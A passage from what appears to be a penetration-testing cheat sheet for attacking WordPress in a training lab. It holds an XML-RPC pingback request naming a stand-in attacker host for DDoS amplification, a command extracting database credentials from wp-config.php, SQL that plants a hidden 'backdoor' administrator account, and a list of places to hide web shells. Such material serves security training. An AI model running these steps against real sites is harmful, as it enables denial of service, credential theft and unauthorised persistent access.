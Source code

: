 #### XML-RPC Abuse
```bash
# XML-RPC DDoS amplification
curl -X POST http://blog.inlanefreight.local/xmlrpc.php \
  -d '<?xml version="1.0"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://attacker.com/</string></value></param>
<param><value><string>http://blog.inlanefreight.local/existing-post/</string></value></param>
</params>
</methodCall>'
```

### Database Access Exploitation

#### wp-config.php Credentials
```bash
# Extract database credentials from wp-config.php
# Through LFI or direct file access
grep -E "(DB_NAME|DB_USER|DB_PASSWORD|DB_HOST)" wp-config.php

# Connect to database if accessible
mysql -h localhost -u db_user -p database_name
```

#### WordPress Database Manipulation
```sql
-- WordPress database tables of interest:
-- wp_users (user accounts and passwords)
-- wp_usermeta (user metadata and capabilities)
-- wp_options (site configuration)
-- wp_posts (content and pages)

-- Create new admin user
INSERT INTO wp_users (user_login, user_pass, user_email, user_status, display_name) 
VALUES ('backdoor', MD5('password123'), 'admin@site.com', 0, 'Backdoor Admin');

-- Grant admin privileges
INSERT INTO wp_usermeta (user_id, meta_key, meta_value) 
VALUES (LAST_INSERT_ID(), 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');
```

---

## Post-Exploitation Activities

### Persistence Mechanisms

#### Web Shell Maintenance
```bash
# Multiple web shell deployment
# 1. Theme file modification (404.php, footer.php)
# 2. Plugin directory placement
# 3. Upload directory web shells
# 4. Hidden .htaccess modifications
```

